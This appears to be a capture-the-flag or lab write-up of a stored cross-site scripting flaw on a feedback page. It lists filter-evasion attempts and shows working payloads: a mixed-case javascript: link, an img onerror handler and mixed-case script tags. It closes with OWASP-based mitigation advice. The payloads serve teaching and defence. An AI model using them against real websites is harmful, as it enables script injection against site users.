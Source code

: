 # Exploit

On the feedback page, we see that we can fill two inputs (name and message), which are then displayed on the page.  
To bypass the limitation on input length, we can either change the maxlength attribute in the `<input>` tab, or change parameters via the proxy.

Straightforward attempts to inject a script are unsuccessful due to filters: `<script>` tags or "javascript" mentions are detected and removed, quotes are escaped...

Then, take inspiration from [this OWASP cheat sheet](https://owasp.org/www-community/xss-filter-evasion-cheatsheet), [this blog post](https://www.netsparker.com/blog/web-security/xss-filter-evasion/) and [this article](https://www.softwaretestinghelp.com/cross-site-scripting-xss-attack-test/)

Some examples...

```
PHNjcmlwdD5hbGVydCgxKTs8L3Njcm
data:text/htmlPHNjcmlwdD5hbGVy
1 AND 1=1
1 AND 1=2
1;url=http://www.test.com
 alert(1);
 javascript:alert(1)
 \"test
 alert("name")
 %22%3E%3Cscript%3Ealert(lala)%
 aaa@aa.com\">alert(doc
 /((\\\\=)|(=))\\[^\\\\n\\]\\*(
     ¼script¾alert(¢XSS¢)¼/scr
\"data:text/html base64,P
```

There is definitely a stored XSS vulnerability, since any of those three values in the name field (that has fewer filters than the message field) will trigger a pop-up box.  
Successful attempts:

```
<a href="jAvAsCriPt:alert('helloo')">Click this link!</a>
```

![](Ressources/images/rxss.jpg)

```
 <img src=x onerror="alert('hello')">
```

```
<ScRipT>alert(1)</sCriPt>
```

![](Ressources/images/ScRiPt.jpg)

Although I consider this is a demonstrated exploit, the flag is not released following these attempts.
Testing further, it turns out that it can be triggered by simply writing "alert" in one of the fields.

# Mitigating the risk

Be rigorous and encode ALL untrusted data!  
Use HTTPS and don't use a javascript URL (that can execute Javascript code when use in URL DOM locations such as href attribute).  
Also, f:ollow the [OWASP XSS Prevention cheat sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html).
